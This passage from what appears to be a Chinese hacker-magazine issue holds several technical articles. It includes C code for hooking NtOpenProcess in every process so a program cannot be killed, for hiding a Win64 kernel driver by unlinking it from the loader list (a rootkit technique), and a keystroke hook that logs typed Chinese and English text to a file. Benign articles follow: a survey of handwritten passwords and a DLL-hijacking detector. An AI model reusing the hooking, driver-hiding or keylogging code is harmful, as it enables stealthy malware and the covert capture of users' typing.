    hProcess=OpenProcess(PROCESS_ALL_ACCESS,0,ProcessId);
    FunctionPtr=(ULONG64)GetProcAddress(GetModuleHandleA("ntdll.dll"),FunctionName);

    if(hProcess==NULL || FunctionPtr==0)
        return FALSE;

    // Get original code
    ReadProcessMemory(hProcess,(LPVOID)FunctionPtr, OriCode,16,&useless);

    // Write fake function code
    memcpy(DisposeCode+DisposeCodeLength,OriCode,16);
    FakeFunctionPtr=VirtualAllocEx(hProcess,NULL,BufferLength,MEM_COMMIT,PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, FakeFunctionPtr, DisposeCode, BufferLength, &useless);

    // Set jump code
    dwFakeFunctionPtr=(ULONG64)FakeFunctionPtr;
    memcpy(JmpCode+2,&dwFakeFunctionPtr,8);

    // Hook api
    VirtualProtectEx(hProcess,(LPVOID)FunctionPtr,16,PAGE_EXECUTE_READWRITE,&oldpt);
    WriteProcessMemory(hProcess,(LPVOID)FunctionPtr, JmpCode,16,&useless);

    CloseHandle(hProcess);
    return TRUE;
}
```

初始化 shellcode（传入自身的 PID）：

```c
VOID InitShellCode(DWORD PidToProtect)
{
    memcpy(shellcode+5,&PidToProtect,4);
    memset(shellcode+17,0x90,80);
}
```

Hook 所有的进程：

```c
void HookAllProcess()
{
    for(UINT i=100;i<19996;i+=4)
    {
        HookNtdllAPI(i,"NtOpenProcess",shellcode,20,100);
    }
}
```

接下来进行测试：

- 首先打开任务管理器等能杀进程的工具；
- 运行这个测试程序。

注意，测试程序一定要在所有的杀进程工具运行后再启动，否则无效。大家都知道，Ring3 Inline Hook 只针对单个进程有效，没有全局性，如果先打开测试程序再运行杀进程工具，则杀进程工具内的函数并没有被 HOOK 到。比如先运行了任务管理器再打开测试程序后，尝试结束测试程序，会出现无法中止进程的情况，如图 2 所示。


本文到此结束，其实代码注入还能实现更多的功能，甚至解决一些 DLL 注入难以解决的问题。我以前曾经写过两篇在 Win64 上 Ring3 Inline Hook 的文章，但都没有解决如何实现对两种不同的进程同时实现 HOOK 的问题。因为 32 位进程可以创建 64 位进程，64 位进程也可以创建 32 位进程，但 32 位进程不能向 64 位进程注入 DLL，64 位进程也不能向 32 位进程注入 DLL。而利用代码注入，能完美解决这个问题（当然还需要别的东西配合，比如 WMI 或者驱动程序）。最后要感谢 charme 和旖旎两位牛人，如果没有他们的热心帮助，就不会有这篇文章的出现。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：驱动

关键词：Win64，内核模块，隐藏


# 在 Win64 上内核模块的枚举和隐藏

图/文 胡文亮

在 Win64 上枚举内核模块有两种方法：使用 ZwQuerySystemInformation 的第 11 号功能和枚举 KLDR_DATA_TABLE_ENTRY 中的 InLoadOrderLinks 双向链表；隐藏内核模块的通用方法是把指定的驱动对象从 KLDR_DATA_TABLE_ENTRY 中的 InLoadOrderLinks 双向链表上摘除。虽然原理和 Win32 上没什么大区别，但是代码上的区别还是很明显的。我经过几天的研究翻了不少微软的官方资料，询问了几位老师和网友，终于写出了有效的代码（直接使用 Win32 枚举或隐藏驱动的代码后果就是程序崩溃或者蓝屏）。

Win32 下使用 ZwQuerySystemInformation 来枚举内核模块的代码在网上到处都是，但是 SYSTEM_MODULE_INFORMATION 的结构体只能在 Win32 下使用。经我不懈地查找，终于找到了 Win64 上 SYSTEM_MODULE_INFORMATION 正确的结构体定义如下：

```c
typedef struct _SYSTEM_MODULE_INFORMATION_ENTRY
{
    ULONG Unknow1;
    ULONG Unknow2;
    ULONG Unknow3;
    ULONG Unknow4;
    PVOID Base;
    ULONG Size;
    ...
    ULONG Flags;
    USHORT Index;
    USHORT NameLength;
    USHORT LoadCount;
    USHORT ModuleNameOffset;
    char ImageName[256];
} SYSTEM_MODULE_INFORMATION_ENTRY,
*PSYSTEM_MODULE_INFORMATION_ENTRY;

typedef struct _SYSTEM_MODULE_INFORMATION
{
    ULONG Count; // 内核中已加载的模块的个数
    SYSTEM_MODULE_INFORMATION_ENTRY Module[1];
} SYSTEM_MODULE_INFORMATION,
*PSYSTEM_MODULE_INFORMATION;
```

枚举内核模块的代码就差不多了，除了某些地方要把 ULONG32 变成 ULONG64，代码如下：

```c
BOOLEAN EnumKM(char *HighlightDrvName)
{
    ULONG NeedSize, i, ModuleCount, HLed=0,
          BufferSize = 0x5000;
    PVOID pBuffer = NULL;
    PCHAR pDrvName = NULL;
    NTSTATUS Result;
    PSYSTEM_MODULE_INFORMATION pSystemModuleInformation;

    do {
        // 分配内存
        pBuffer = malloc(BufferSize);
        if (pBuffer == NULL)
            return 0;

        // 查询模块信息
        Result = ZwQuerySystemInformation(11, pBuffer, BufferSize, &NeedSize);
        if (Result == 0xC0000004L)
        {
            free(pBuffer);
            BufferSize *= 2;
        }
        else if (Result < 0)
        {
            // 查询失败则退出
            free(pBuffer);
            return 0;
        }
        ...
    } while (Result == 0xC0000004L);

    pSystemModuleInformation = (PSYSTEM_MODULE_INFORMATION)pBuffer;

    // 获得模块的总数量
    ModuleCount = pSystemModuleInformation->Count;

    // 遍历所有的模块
    for (i = 0; i < ModuleCount; i++)
    {
        if ((ULONG64)(pSystemModuleInformation->Module[i].Base) > (ULONG64)0x8000000000000000)
        {
            pDrvName = pSystemModuleInformation->Module[i].ImageName +
                       pSystemModuleInformation->Module[i].ModuleNameOffset;
            printf("0x%llx\t%s", (ULONG64)pSystemModuleInformation->Module[i].Base, pDrvName);

            if (_stricmp(pDrvName, HighlightDrvName) == 0)
            {
                printf("\t\t<-----------------");
                HLed = 1;
            }
            printf("\n");
        }
    }

    if (HLed == 0)
    {
        printf("\n[%s] NOT FOUND!", HighlightDrvName);
        free(pBuffer);
        return 1;
    }
}
```

EnumKM() 函数传入的参数是“你要高亮的内核模块名字”，当然这个跟枚举内核模块没有任何关系，只是为了方便查看你特别关注的内核模块。因为我后面要以隐藏 win32k.sys 为例子，所以 EnumKM() 函数我传入的参数是 win32k.sys，代码如下：

```c
typedef NTSTATUS (*ZWQUERYSYSTEMINFORMATION)(
    IN ULONG SystemInformationClass,
    OUT PVOID SystemInformation,
    IN ULONG Length,
    OUT PULONG ReturnLength);

ZWQUERYSYSTEMINFORMATION ZwQuerySystemInformation;

int main()
{
    ZwQuerySystemInformation = (ZWQUERYSYSTEMINFORMATION)GetProcAddress(
        LoadLibraryW(L"ntdll.dll"), "ZwQuerySystemInformation");
    EnumKM("win32k.sys");

    getchar();
    return 0;
}
```

运行效果如图 1 所示。


图 1

接下来隐藏驱动就稍微复杂点了，因为不仅 KLDR_DATA_TABLE_ENTRY 结构体变了，连 LIST_ENTRY 也变了，变成了 LIST_ENTRY64，代码如下：

```c
typedef struct LIST_ENTRY
{
    PLIST_ENTRY Flink;
    PLIST_ENTRY Blink;
} LIST_ENTRY;

typedef struct LIST_ENTRY64
{
    ULONGLONG Flink;
    ULONGLONG Blink;
} LIST_ENTRY64;
```

虽然本质上没什么区别，但是如下所示的摘链代码就麻烦多了：

```c
p->Flink->Blink = p->Blink;
p->Blink->Flink = p->Flink;
((LIST_ENTRY64*)(p->InLoadOrderLinks.Flink))->Blink = p->InLoadOrderLinks.Blink;
((LIST_ENTRY64*)(p->InLoadOrderLinks.Blink))->Flink = p->InLoadOrderLinks.Flink;
```

在此简单介绍一下双向链表的摘链，因为这个是本文的核心，而对于没有学过《数据结构》的读者来说，可能难以理解。简单地说，双向链表就是多个人手拉手围成一个环，某人的左边称为 Blink，右边称为 Flink；摘链就是某个人离开了，其他人继续手拉手围成一个环。从图 2 可以看到，原来 B 的右边是 C（即 B=C.Blink），D 的左边是 C（即 D=C.Flink）；C 被摘链后，B 的右边是 D（C.Blink.Flink=C.Flink），D 的左边是 B（C.Flink.Blink=C.Blink）。


### KLDR_DATA_TABLE_ENTRY 结构体如下所示：

```c
typedef struct _KLDR_DATA_TABLE_ENTRY
{
    LIST_ENTRY64 InLoadOrderLinks;
    ULONG64 __Undefined1;
    ULONG64 __Undefined2;
    ULONG64 __Undefined3;
    ULONG64 NonPagedDebugInfo;
    ULONG64 DllBase;
    ULONG64 EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG __Flags;
    USHORT LoadCount;
    USHORT __Undefined5;
    ULONG64 __Undefined6;
    ULONG CheckSum;
    ULONG __padding1;
    ULONG TimeDateStamp;
    ULONG __padding2;
} KLDR_DATA_TABLE_ENTRY,
*PKLDR_DATA_TABLE_ENTRY;
```

要隐藏指定的内核模块，首先要获得指定内核模块的基址，代码如下：

```c
ULONG64 GetSystemModuleBase(char* lpModuleName)
{
    ULONG NeedSize, i, ModuleCount, BufferSize = 0x5000;
    PVOID pBuffer = NULL;
    PCHAR pDrvName = NULL;
    NTSTATUS Result;
    PSYSTEM_MODULE_INFORMATION pSystemModuleInformation;

    do {
        pBuffer = kmalloc(BufferSize);
        if (pBuffer == NULL) return 0;

        Result = ZwQuerySystemInformation(11, pBuffer, BufferSize, &NeedSize);
        if (Result == STATUS_INFO_LENGTH_MISMATCH) {
            kfree(pBuffer);
            BufferSize *= 2;
        } else if (!NT_SUCCESS(Result)) {
            kfree(pBuffer);
            return 0;
        }
    } while (Result == STATUS_INFO_LENGTH_MISMATCH);

    pSystemModuleInformation = (PSYSTEM_MODULE_INFORMATION)pBuffer;
    ModuleCount = pSystemModuleInformation->Count;

    for (i = 0; i < ModuleCount; i++) {
        // ...
        if ((ULONG64)(pSystemModuleInformation->Module[i].Base) > (ULONG64)0x8000000000000000)
        {
            pDrvName = pSystemModuleInformation->Module[i].ImageName +
                       pSystemModuleInformation->Module[i].ModuleNameOffset;
            if (_stricmp(pDrvName, lpModuleName) == 0)
                return (ULONG64)pSystemModuleInformation->Module[i].Base;
        }
    }

    kfree(pBuffer);
    return 0;
}
```

摘链的代码如下：

```c
VOID HideDriver(char *pDrvName)
{
    PKLDR_DATA_TABLE_ENTRY entry =
        (PKLDR_DATA_TABLE_ENTRY)pDriverObject->DriverSection;
    PKLDR_DATA_TABLE_ENTRY firstentry;
    ULONG64 pDrvBase = 0;
    KIRQL OldIrql;

    firstentry = entry;
    pDrvBase = GetSystemModuleBase(pDrvName);

    while ((PKLDR_DATA_TABLE_ENTRY)entry->InLoadOrderLinks.Flink != firstentry)
    {
        if (entry->DllBase == pDrvBase)
        {
            OldIrql = KeRaiseIrqlToDpcLevel();
            ((LIST_ENTRY64*)(entry->InLoadOrderLinks.Flink))->Blink = entry->InLoadOrderLinks.Blink;
            ((LIST_ENTRY64*)(entry->InLoadOrderLinks.Blink))->Flink = entry->InLoadOrderLinks.Flink;
            entry->InLoadOrderLinks.Flink = 0;
            entry->InLoadOrderLinks.Blink = 0;
            KeLowerIrql(OldIrql);
            DbgPrint("Remove LIST_ENTRY64 OK!");
            break;
        }

        entry = (PKLDR_DATA_TABLE_ENTRY)entry->InLoadOrderLinks.Flink;
    }
}
```

如果把 HideDriver() 里的那段 if 注释掉，然后把 kprintf 那句反注释，就是枚举内核模块了。我给 HideDriver() 传入的参数是 win32k.sys，把驱动加载后，再用 ZwQuerySystemInformation 来枚举内核模块，可以发现 win32k.sys 已经消失了，如图 3 所示。

图 3

可能有人会有疑问，为什么不直接在 `HideDriver()` 函数里对比 `BaseDllName` 呢？其实我一开始就是这么做的，但在字符串对比时经常出错导致蓝屏，所以只能用麻烦的方法：先用 `ZwQuerySystemInformation` 来枚举内核模块，获得指定模块的基址；在枚举链表时通过对比基址来确定当前驱动是否就是要隐藏的驱动。本文到此结束，可以看出，Win32 内核相对于 Win64 内核还是有较大的不同。但这个不同也仅仅是结构体变了，其本质还是没变。大家在写 64 位程序时，需要去微软的官方网站查看新的结构体定义，否则就会出错。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：输入法，中文，拼音

# 摸清中文输入原理截汉字

从 N 年前微软蹩脚的智能 ABC 输入法，到今天各种方便的搜狗、QQ、百度输入法，我们在使用计算机的时候，输入法为我们输入中文提供了极大的便利。但是我们在使用这些五花八门的输入法的时候，有没有想过：这些输入法是如何将键盘的输入转换成汉字，最终输出到我们想要输入的地方的？我们常常听说键盘记录，那么能否记录经过输入法处理过的中文输入呢？

我探索了好久，发现微软从 Windows 9x 到 Windows XP 等 NT5.0 以上版本还是有很大差别的。虽然我没有验证 Windows 9x 系统的输入法处理过程，但是在试验中发现关于 9x 的原理并不适用于 NT5.0 以上版本。首先看看各个版本的处理方法。

想要了解这个问题，首先得了解输入法的输入原理。

首先我们要知道什么是输入法。我们经常用输入法，但是你发现一个现象没有：在任务管理器中并没有看到输入法进程。输入法的核心文件，你找到安装目录就会发现一个后缀是 `.ime` 的文件，你用十六进制查看器看看就会发现它其实是一个类似 DLL 的模块；当一个进程打开输入法要输入汉字的时候，其实就是载入了这个模块，如图 1 所示。

图 1

然后，我们要摸清输入法的输入原理。这个问题在这个模块里进行文字的接收、处理、发送。

## Windows 9x 系统

系统的键盘事件由 Windows 的 `user.exe` 接收后，`user.exe` 再将键盘事件传导到输入法管理器（Input Method Manager，简称 IMM）中，管理器再将键盘事件传到输入法中，输入法根据用户编码字典，翻译键盘事件为对应的汉字（或汉字串），然后反传到 `user.exe` 中，`user.exe` 再将翻译后的键盘事件传给当前正在运行的应用程序，从而完成汉字的输入。这个是 Windows 9x 系统下的流程。

## Windows NT4.0 以上系统

这个是重点，以 Windows XP 为例。Windows XP 系统下的输入法和 9x 系统的输入法有很大区别，对输入法的处理完全不同。先看一个例子：

```cpp
while((r=GetMessageW(&msg,0,0,0))!=-1)
{
    if(r==0)break;
    TranslateMessage(&msg);
    DispatchMessageW(&msg);
}
```

这是一个消息循环，直到 `r` 等于 0，表示有 `WM_QUIT`；`r==-1` 表示出错。是系统从消息队列中取消息的一般过程。那么输入法是怎么回事呢？我们可以用一些工具挂钩窗口的消息来分析输入法原理，这里直接给出结论。

一般情况下，`GetMessage` 得到 `WM_KEYDOWN` 的 `wParam` 是虚拟键码。如果我们开了输入法，`WM_KEYDOWN` 的 `wParam` 虚拟码是 `VK_PROCESSKEY`。`TranslateMessage` 对一般的虚拟键码将产生 `WM_CHAR`、`WM_SYSCHAR` 之类的消息，但是当 `TranslateMessage` 遇到了 `VK_PROCESSKEY`，就会有特殊处理。这时候 `TranslateMessage` 就会把控制权交给 `DefWindowProc` 这个缺省的消息处理例程，`DefWindowProc` 再通知输入法程序的窗口，把那些候选字显示出来。当你的输入法将接收到的虚拟码做一系列转换以后合成相应的汉字，输入法再将合成好的 `WM_CHAR` 用 `PostMessage` 插入消息队列，Edit 控件接收 `WM_CHAR` 显示字符。如果你没有开输入法，则 `WM_CHAR` 直接由 `TranslateMessage` 产生。流程图如图 2 所示。

好了，到这里大家应该明白目前常见输入法是如何工作的了。那么我们现在的目的是截获输入法合成后的中文汉字。

要做一个系统钩子，捕获输入法处理后发送到消息队列的 `WM_CHAR` 消息之后，就能够实现相应的功能。但是值得注意的是：汉字是由双字节编码组成的，占两个字节，而钩子子程一次只能传送一个字节，下面我们讲处理方法。

图 2

至于系统钩子的安装，在此我就不赘述了，这应该是一个非常普遍的技术，一般的技术书上都能找到。我们直接看一些关键的程序段。首先看一下钩子的安装程序：

```cpp
BOOL WINAPI SetKeyHook(BOOL bInstall,DWORD dwThreadId)
{
    BOOL bOk;
    if(bInstall)
    {
        g_hHook=::SetWindowsHookEx(WH_GETMESSAGE,KeyHookProc,ModuleFromAddress(KeyHookProc),dwThreadId);
        // 注意这里安装的是 WH_GETMESSAGE 类型钩子。应用程序使用 WH_GETMESSAGE Hook 来监视从 GetMessage 或 PeekMessage 函数返回的消息
        bOk=(g_hHook!=NULL);
    }
    else
    {
        bOk=::UnhookWindowsHookEx(g_hHook);
        g_hHook=NULL;
    }
    return bOk;
}

// 然后我们看一下钩子子程，这个是重点
int temp;
int flag=0;
LRESULT CALLBACK KeyHookProc(int nCode,WPARAM wParam,LPARAM lParam)
{
    // 各个参数的意义参看在线版的 MSDN
    PMSG pcw=(PMSG)lParam;
    FILE *fp;
    char szKey[80]={0};
    fp=fopen("c:\\Key.txt","a+");
    if (wParam==PM_REMOVE) // 该消息尚未从队列中删除
    {
        if(nCode==HC_ACTION)
        {
            if(pcw->message==WM_CHAR)
            {
                ...
            }
        }
    }
}
```

```cpp
if(pcw->wParam<127) // 英文
{
  szKey[0]=(TCHAR)(pcw->wParam);
  fwrite(szKey,sizeof(szKey),1,fp);
  fputs("\r\n",fp);
  fclose(fp);
}
else // 中文
{
  // 这里需要注意了，汉字占两个字节，而钩子一次只能截一个字节
  // 所以如果是中文，需要先把第一次的记录存下来，第二次再截获后拼接起来，并且顺序是颠倒的
  if((flag%2)==0) // 判断为第一次
  {
    temp=(pcw->wParam);
  }
  if((flag%2)==1) // 判断为第二次
  {
    fputc(pcw->wParam,fp); // 保存第二次的
    fputc(temp,fp); // 再保存第一次的
  }
}
```

```cpp
fclose(fp);
}
flag++;
}
}
}
}
```

这就是完整的钩子子程。经过多次实践，需要将后截获的编码作为高字节，先截获的作为低字节，这样才能还原这个汉字。

此外，平时我们看见的输入法连打，有时能输入一个词，有时能输入一句话，其实是输入法本身做的一些手脚；其实处理的时候仍然是分解成单个字进行处理的，所以我们的程序仍然能够正常截获。

好了，到此我们的原理、目的都说清楚了。笔者旨在阐明输入法的处理原理，所以附带程序的健壮性有待考究，如有错误，欢迎指正。

前置知识：无  
关键词：Handwritten password，调研

# 调研 Handwritten Password

图/文 李勃杰

Handwritten password，可以理解为手绘体密码，它是图像密码（Graphic Password）的一个分支。本文主要讨论 handwritten password 的必要性、可行性以及备选实现方法。为什么需要 handwritten password？

随着计算机技术发展和互联网的普及，人们越来越频繁地需要在不同网站和桌面应用程序中进行身份认证，这意味着我们需要经常输入密码。

这对用户造成了不少挑战：

- 使用的不同密码太多，可能记不住！
- 使用好记的密码，但太短又不够安全！
- 经常需要繁琐地输入密码，降低用户体验，消耗过多时间成本！

Handwritten password 可以实现的改进是：

- 以图形方式呈现，方便用户记忆。
- 鉴于图形的海量组合，辅以安全认证策略，可以很好地保证密码安全。
- 输入迅速方便，节省时间。
- 另外，它也更加充满趣味和创造性，而不是纯粹的机械操作。

## 现有的一些技术

当前已有很多相关的技术实现，本文简述其中的指纹识别、脸部识别、基于笔迹筛选的身份认证系统。

### 指纹识别

指纹识别是采用人体指纹进行输入的一套硬软件系统，当前已经得到了实际应用，比如基于指纹识别的门禁开关、基于指纹识别的系统登录。

但它的局限在于：

- 需要单独的硬件采集指纹，需要对应的驱动程序、识别程序。
- 如果用于互联网上的认证，存在数据量过大、验证过程消耗过多服务器资源的问题。

### 脸部识别

跟指纹识别类似，它需要单独的硬软件系统，也得到了实际应用。其局限在于：

- 需要单独的硬件采集图像，例如内置摄像头。
- 受到光线条件的限制，例如在灯光昏暗的房间，认证可能无法成功。
- 需要单独的设备驱动和验证程序。

### 基于笔迹筛选的身份认证系统

英国格拉斯哥大学（The University of Glasgow）的凯伦教授（Karen Renaud）实现了一套名为 “Dynahand” 的网络认证系统，它让用户多次识别自己的笔迹，从而达到身份认证的目的。如图 1 所示。

用户经过多次选择自己的笔迹（PIN），最终完成认证。

- 需要保存大量图片在服务器上。
- 当前展示了 9 张图片，有 1/9 的猜解成功率，若在第二轮辅以笔迹的机器识别，可以达到很高的破解成功率，安全性较低。
- 使用前需要进行多次笔迹采集工作，成本太高。

### 参考材料：

- http://www.dcs.gla.ac.uk/~karen/Papers/recog.pdf
- http://www.dcs.gla.ac.uk/~karen/research.html

## 准备新系统的实现

新系统采用图形作为密码，保存在数据库服务器上，用于网络身份认证。这里需要考虑的因素有：

- 图形使用何种技术进行采集？摄像头、Flash、ActiveX、JavaScript 脚本？
- 图形信息以何种形式存储？如何压缩？如何选择数据库？
- 图形如何在服务器上进行验证？如何和 Web 服务器交互？
- 如何解决大并发量的效率问题？其他的一些因素。

## 如何采集图形？

新系统主要用于网页上的密码校验，当然并不排除它可以用于桌面应用程序。为了减少不必要的开销，最好能够利用已有的外设进行采集，鼠标是最好的选择！在网页上，用户使用鼠标进行简单的绘图操作。可以通过嵌入 Flash 到网页中实现上述功能。图 2 展示了百度的手写体输入，它是通过 Flash 实现的。

## 图形以何种形式存储？如何压缩？选择什么数据库？

考虑到带宽限制，数据量需要尽量小。如果采用二进制存储，并辅以压缩，能达到较好的效果。例如一个 `200*200` 像素的绘图板，有 `200*200=40,000 bit`，也即 `5000 Byte`，经过压缩，这个大小还能再减小一些。如果按照上传速率 `50kb/s`，能够在一秒钟内完成。

为了充分利用带宽，我们应该尽量采集详细的数据。只有当绘图板足够大，才能够出现海量组合。关于图形如何压缩，当图形像素点很少的时候，我们可以只保存图形本身，忽略背景；反之，当图像很复杂，可以只保存背景背影。这样可以减少一定的数据量。值得一提的是，如何保存像素点也非常关键。因为当以 ASCII 码的形式保存信息时，每个像素点可能需要占用多个字节，这是天大的开销。然而需要注意的是，以 ASCII 码保存具有解析方便的优势！

需要使用的压缩算法，目前还没有定论。这需要进一步测试。对于选取什么数据库，需要考虑数据量和查询效率。在测试阶段，可以暂时选用中小关系型数据库。

## 图形数据如何在服务器上进行校验？如何和 Web 服务器交互？

由于图形是不定的，只能近似相同，我们需要找到良好的匹配算法。当前个人仅仅考虑可以使用双线性插值算法进行图像的伸缩，至于匹配算法的选择，需要进行更多测试和资料搜集。

一个非常重要的问题是，服务器上的后台程序如何与 Web Server 进行交互。因为 Web 服务器需要向后台程序发送验证请求，然后我们又需要把校验结果返回给 Web 服务器，让它知道用户校验是否已经通过。例如，我们可以独立开发一个校验模块，扩展到 Apache 中；可以编写单独的 ActiveX 供脚本程序调用。由于知识有限，目前还没有更好的思路，但这些都是至关重要的因素，决定了能否方便地提供给他人使用。

## 如何解决大并发量的效率问题？

由于图形处理和匹配需要消耗大量计算机资源，在并发请求量很大的时候，程序如何进行处理，如何将任务排队，这决定了此项改进能否得到实际应用。

因为我们不希望看到仅仅一个小的改进，就让原本提供 Web 服务的计算机变成一台图形匹配专用计算机，它只是一个小的附加功能罢了。

## 一些其他的因素

当上述基本功能得到实现，我们可以进一步加固系统的安全性。例如，为防止暴力破解，可以加入请求时间戳：用户必须在加载完绘图板 Flash 程序 5 秒之后才能够提交表单；为阻止暴力破解，使用一个 Session 变量统计登录失败的尝试次数，超过 5 次不再响应后续请求。

另外，当用户校验通过后，是否需要将以前的样本数据和本次输入的数据进行综合校正，以优化今后的匹配过程，都是需要仔细考虑的。

## 参考材料

- DynaHand: Observation-Resistant Recognition-Based Web Authentication IEEE Technology and Society, Special Issue on Usable Security and Privacy:  
  http://www.dcs.gla.ac.uk/~karen/Papers/recog.pdf
- Handwritten Passwords:  
  http://www.technologyreview.in/communications/18986/
- Handwriting, not passwords, safer online:  
  http://www.abc.net.au/science/articles/2007/07/12/1976978.htm

前置知识：驱动  
关键词：DLL 劫持，COM 组件，漏洞

# DLL 劫持监测

图/文 换心

DLL 劫持是指利用操作系统在 DLL 加载机制上的缺陷，使系统或应用程序加载包含恶意代码 DLL 的攻击方法。到目前为止，Windows 系统上的 DLL 劫持技术可以分为三类：旧 DLL 劫持、新 DLL 劫持和利用 COM 组件劫持。由于利用 COM 组件不安全库加载漏洞（MS11-071）的情形较复杂，这里暂不讨论，文中主要讨论前两种。

DLL 劫持漏洞危害甚大。旧 DLL 劫持可以通过在注册表中设置安全搜索路径——使系统自家的搜索在应用程序目录之前——来避免；但新 DLL 劫持却至今没有很好的解决方法。2010 年 8 月 25 日、26 日，漏洞信息共享网站 exploit-db 爆出 Winamp、Google Earth、Photoshop 等软件存在 DLL 劫持漏洞；在此之前公布的存在漏洞的流行软件就有 QQ 影音、QQ 音乐、美图秀秀、PPStream 等。由于新 DLL 劫持依据的是 Windows 系统自身的路径搜索机制，如果禁止这种机制，则会导致在此基础上的很多软件都将不能运行。因此，至今新 DLL 劫持仍没有行之有效的补丁或解决方法。

为了理解 DLL 劫持机制的原理，首先需要了解 Windows 系统加载 DLL 的原理。Windows 系统在进程初始化阶段，会根据 EXE 导入表加载其所引入的 DLL。但是导入表中只包含了 DLL 的名称，而没有指定 DLL 路径，因此加载程序必须在磁盘上搜索 DLL 文件。同样，采用 `LoadLibrary` 显式加载 DLL 时，如果不指定 DLL 的绝对路径，也会导致操作系统搜索 DLL 文件。Windows 默认的 DLL 搜索目录及顺序，在 Win XP SP2 之前如下所示：

- 应用程序所在目录。
- 当前目录。
- Windows SYSTEM 目录。
- 16 位系统的目录。
- Windows 目录。
- `PATH` 环境变量指定的路径。

在 Win XP SP2 及以后的版本中，默认搜索目录的顺序发生了变化，上述第（2）项所表示的当前目录被移到了第（5）项之后。

由于搜索目录存在一定的顺序，黑客们可以先伪造一个与系统 DLL 同名的 DLL，提供同样的输出表，每个输出函数转向真正的系统 DLL。然后将伪造的 DLL 放在应用程序所在目录中，由于搜索目录的顺序，程序调用系统 DLL 时会先调用伪造的 DLL，完成相关功能后，再跳到系统 DLL 同名函数里执行。这就是旧 DLL 劫持。

而新 DLL 劫持，则是利用搜索顺序中的当前目录，来加载用于恶意目的的 DLL。由于应用程序为了扩展或版本兼容等目的，需要加载相应的 DLL 文件，而这些 DLL 文件并不一定总存在于当前系统中。例如 IE6 环境下没有 `ieframe.dll`，而 IE7 以上版本存在，这就导致 IE6 存在 DLL 劫持漏洞。因此，黑客们可以将精心改造过的包含恶意代码的 `ieframe.dll` 与网页打包在一起供人们下载。当普通用户打开网页时，会启动默认关联的程序 IE6，此时由于 `ieframe.dll` 不存在于系统目录和其他搜索目录，系统就会搜索当前目录（即此时网页所在目录），找到包含恶意代码的 `ieframe.dll` 并加载。

简而言之，旧 DLL 劫持就是利用系统 DLL 目录搜索方式，使程序加载应用程序所在目录下伪造的系统已知 DLL；而新 DLL 劫持也是利用搜索顺序上的漏洞，使程序加载应用程序所在进程当前目录下的伪造应用软件 DLL。

既然 DLL 劫持是利用了搜索顺序上的漏洞，那我们也可以利用 DLL 劫持出现时 DLL 目录的特征来检测劫持。不难想到：旧 DLL 劫持出现时，应用程序所在目录会出现一个伪造的系统 DLL；而新 DLL 劫持出现时，必然是应用程序加载了当前目录下的 DLL。这是我们实现检测的思路。

检测工具的具体实现分为两个部分：驱动和用户态程序。作者在驱动中 HOOK 了 `NtCreateSection` 来拦截系统中 DLL 的加载。当然，也可以 HOOK 其他 API，还可以在用户态实现拦截，只要能够实现在 DLL 加载之前截获，并获取我们需要的 DLL 和加载其进程的一些参数即可。而用户态程序则在接收驱动拦截发送过来的信息后，进行一系列逻辑判断，并在检测到劫持时弹框向用户报警。

理清思路，在拦截到 DLL 时，我们需要：

- 获取 DLL 的完整路径；
- 获取加载 DLL 进程的应用程序 PID、所在目录和当前目录。

当把这些信息传递到用户态后，用户态程序需要做的是：

- 判断 DLL 加载是否来自应用程序所在目录？如果是，则检查 DLL 文件名是否为系统已知 DLL；如果两者都符合，即是旧 DLL 劫持；
- 判断 DLL 加载是否来自应用程序当前目录？如果是，可能为新 DLL 劫持，弹框向用户报警，供用户判断。

由于新 DLL 劫持本质上采用的是 Windows 的一种合法机制，正常程序也有可能在应用程序目录之前的当前目录中加载 DLL，所以上面的检测思路只是警告用户可能出现了新 DLL 劫持，而不能百分之百确定出现的就一定是新 DLL 劫持攻击。用流程图表示我们的检测思路如图 1 所示。

接下来就是如何实现我们的思路了。对于驱动如何 HOOK `NtCreateSection`，读者可以参考 2010 年 3 期的《系统范围内的进程创建监控实现》一文，里面详细介绍了驱动的基本编写和 HOOK 全过程。下面对编程的讲解将从如何获得拦截到的 DLL 全路径开始。

（注意：本文代码编程环境不限，但工具实现后的测试环境需要在 WinXP 上进行）

## 图1 DLL 劫持检测流程图

NtCreateSection 的最后一个参数即为待映射模块对应文件的句柄，通过 ObReferenceObjectByHandle 即可由句柄获得文件对象，再由文件对象获得 DLL 的全路径。代码如下：

```c
ObReferenceObjectByHandle(hand, 0, 0, KernelMode, &file, &info);
if(!file)
    return 1;
if (GetFilePathByObj(file, buff)) // 该函数根据文件对象来获取带盘符的完整路径
{
    KdPrint(("FullFilePath:%s\n", buff));
}
else
{
    KdPrint(("GetFilePathByObj return false!\n"));
}
```

其中，GetFilePathByObj 的内部代码如下：

```c
int GetFilePathByObj(IN PFILE_OBJECT pFileObject, OUT PCHAR FilePath)
{
    OBJECT_HANDLE_INFORMATION HandleInformationObject;
    ANSI_STRING asFileName;
    UNICODE_STRING dosName, fullUniName;

    __try
    {
        dosName.Buffer = (PWSTR)ExAllocatePool(PagedPool, 16);
        dosName.MaximumLength = 8;
        fullUniName.Buffer = (PWSTR)ExAllocatePool(PagedPool, MaxPath * 2);
        fullUniName.MaximumLength = MaxPath * 2;
        ...
    }
    ...
}
```

```c
if (pFileObject != NULL)
{
    if (RtlVolumeDeviceToDosName(pFileObject->DeviceObject, &dosName) != STATUS_SUCCESS) // 获得盘符
        return FALSE;
    RtlCopyUnicodeString(&fullUniName, &dosName); // 将盘符拷贝到大容量地方存放
    RtlAppendUnicodeStringToString(&fullUniName, &((PFILE_OBJECT)pFileObject)->FileName); // 将盘符和名字放在一起，得到总路径

    RtlUnicodeStringToAnsiString(&asFileName, &(fullUniName), TRUE);
    memcpy(FilePath, asFileName.Buffer, asFileName.Length);
    FilePath[asFileName.Length] = 0;
    RtlFreeAnsiString(&asFileName);
    ExFreePool(dosName.Buffer);
    ExFreePool(fullUniName.Buffer);
    return TRUE;
}
return FALSE;

__except(1)
{
    KdPrint(("GetFilePathByObj Error!"));
    return FALSE;
}
```

接下来是获取加载进程的 PID。当一个 DLL 加载被拦截时，此时驱动代码运行的当前进程，就是加载 DLL 的进程，我们可以调用 PsGetCurrentProcessId 来获得当前进程的 PID。

